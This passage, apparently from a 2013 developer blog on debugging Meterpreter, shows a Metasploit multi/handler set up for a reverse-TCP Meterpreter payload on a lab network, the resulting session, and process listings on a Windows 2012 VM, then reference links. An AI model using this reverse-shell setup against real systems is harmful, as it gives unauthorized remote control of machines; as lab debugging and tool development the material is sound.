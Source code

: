 I copied this binary to the Windows 2012 machine ready to execute. At this point, Metasploit needs to be set up and configured to deal with the incoming request. On the Backtrack VM, we run `msfconsole` and set it up to use `multi/handler` with the appropriate settings, like so:

    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Payload options (windows/x64/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique: seh, thread, process, none
       LHOST     10.5.26.40       yes       The listen address
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target

With those settings in place, the exploit was ready to fire:


    msf exploit(handler) > exploit

    [*] Started reverse handler on 10.5.26.40:443 
    [*] Starting the payload handler...

From the Windows 2012 VM I ran the exploit binary and my Metepreter session kicked off:

    [*] Sending stage (951296 bytes) to 10.5.26.30
    [*] Meterpreter session 1 opened (10.5.26.40:443 -> 10.5.26.30:38516) at 2013-09-11 21:55:52 +1000

    meterpreter > getuid
    Server username: WIN-URCAUVPE291\OJ Reeves
    meterpreter > sysinfo
    Computer        : WIN-URCAUVPE291
    OS              : Windows 2012 (Build 9200).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x64/win64
    meterpreter > 

Before trying the failure case, I wanted to make sure that the known success case worked locally first. I decided to migrate to `explorer.exe` and see if anything changed:


    meterpreter > ps

    Process List
    ============

     PID   PPID  Name                Arch    Session     User                       Path
     ---   ----  ----                ----    -------     ----                       ----
     0     0     [System Process]            4294967295                             
     4     0     System                      4294967295                             
     444   4     smss.exe                    4294967295                             
     484   708   svchost.exe                 4294967295                             
     536   524   csrss.exe                   4294967295                             
     604   596   csrss.exe                   4294967295                             
     612   524   wininit.exe                 4294967295                             
     640   596   winlogon.exe                4294967295                             
     692   720   explorer.exe        x86_64  1           WIN-URCAUVPE291\OJ Reeves  C:\Windows\Explorer.EXE
     708   612   services.exe                4294967295                             
     716   612   lsass.exe                   4294967295                             

  [KronicDeth]: https://twitter.com/KronicDeth "Luke Imhoff @ Twitter"
  [met_native]: https://github.com/rapid7/meterpreter "Native Meterpreter"
  [Metasploit framework]: http://www.metasploit.com/ "Metasploit Framework"
  [penetration test]: http://en.wikipedia.org/wiki/Penetration_test "Penetration Testing"
  [msf_source]: https://github.com/rapid7/metasploit-framework/ "Metasploit Framework Source"
  [Rapid7]: http://www.rapid7.com/ "Rapid 7"
  [r7_blog]: https://community.rapid7.com/community/metasploit/blog/2013/09/05/weekly-update "Weekly Update: Meterpreter Updates, VMWare, the OSX spycam, Retabbing, and more!"
  [rdi_paper]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf "Reflective DLL Injection"
  [Harmony Security]: http://harmonysecurity.com/ "Harmony Security"
  [Stephen Fewer]: http://twitter.com/stephenfewer
  [DllMain]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms682583(v=vs.85).aspx "DllMain Entry Point"
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload "msfpayload"
  [Backtrack]: http://www.backtrack-linux.org/ "Backtrack Linux"
  [DebugView]: http://technet.microsoft.com/en-au/sysinternals/bb896647.aspx "DebugView"
  [Windbg]: http://en.wikipedia.org/wiki/WinDbg "Windbg"
  [dbg_tools]: http://msdn.microsoft.com/en-us/windows/hardware/gg463009.aspx "Debugging Tools for Windows"
  [OutputDebugString]: http://msdn.microsoft.com/en-us/library/windows/apps/aa363362(v=vs.85).aspx "OutputDebugString function"
  [DWORD]: http://msdn.microsoft.com/en-us/library/cc230318.aspx "DWORD"
  [ULONG_PTR]: http://msdn.microsoft.com/en-us/library/cc230394.aspx "ULONG_PTR"
  [ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization "Adress Space Layout Randomisation"
  [sf_pr]: https://github.com/rapid7/meterpreter/pull/14